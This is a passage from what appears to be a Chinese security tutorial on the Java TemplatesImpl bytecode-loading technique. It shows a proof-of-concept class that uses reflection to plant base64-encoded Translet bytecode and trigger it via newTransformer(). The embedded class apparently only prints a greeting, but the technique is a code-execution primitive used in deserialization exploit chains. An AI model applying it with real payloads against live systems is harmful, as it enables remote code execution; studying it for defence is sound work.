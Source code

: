 
解释以下为什么多了两个transform方法

    这里是因为子类需要实现父类里面的抽象方法，同时因为父类是抽象类，可能没有将接口的方法全部实现，
    这时子类如果不是抽象的，那必须将其他接口方法都实现。
    这里面 `transform(DOM document, DTMAxisIterator iterator,SerializationHandler handler)
    是父类里面的抽象方法所以要重写
    transform(DOM document, SerializationHandler[] handlers)是父类没有实现接口的方法所以要重写
    

同样将其编译为class文件，然后base64编码  
最后就是写poc了,就新建一个`TemplatesImpl`对象，把属性设置进去然后执行`newTransformer`方法触发，主要是咱得先写一个利用反射给私有属性赋值的一个方法`setFieldValue`：

    package org.gk0d;
    
    import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
    import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
    
    
    import java.lang.reflect.Field;
    import java.util.Base64;
    
    public class a {
        public static void setFieldValue(Object obj, String fieldName, Object Value) throws Exception {
            Field field = obj.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(obj, Value);
        }
    
        public static void main(String[] args) throws Exception {
    // source: bytecodes/HelloTemplateImpl.java
            byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgASCQATABQIABUKABYAFwcAGAcAGQEA" +
                    "CXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RP" +
                    "TTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0" +
                    "aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCm" +
                    "KExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29y" +
                    "Zy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2Fw" +
                    "YWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxp" +
                    "bml0PgEAAygpVgEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAb" +
                    "DAAcAB0BABNIZWxsbyBUZW1wbGF0ZXNJbXBsBwAeDAAfACABABJIZWxsb1RlbXBsYXRlc0ltcGwB" +
                    "AEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFj" +
                    "dFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5z" +
                    "bGV0RXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3Ry" +
                    "ZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5n" +
                    "OylWACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAIAAsA" +
                    "AAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAACgALAAAABAABAAwA" +
                    "AQAOAA8AAQAJAAAALQACAAEAAAANKrcAAbIAAhIDtgAEsQAAAAEACgAAAA4AAwAAAA0ABAAOAAwA" +
                    "DwABABAAAAACABE=");
            TemplatesImpl obj = new TemplatesImpl();
            setFieldValue(obj, "_bytecodes", new byte[][]{code});
            setFieldValue(obj, "_name", "HelloTemplatesImpl");
            setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
            obj.newTransformer();
        }
    }
    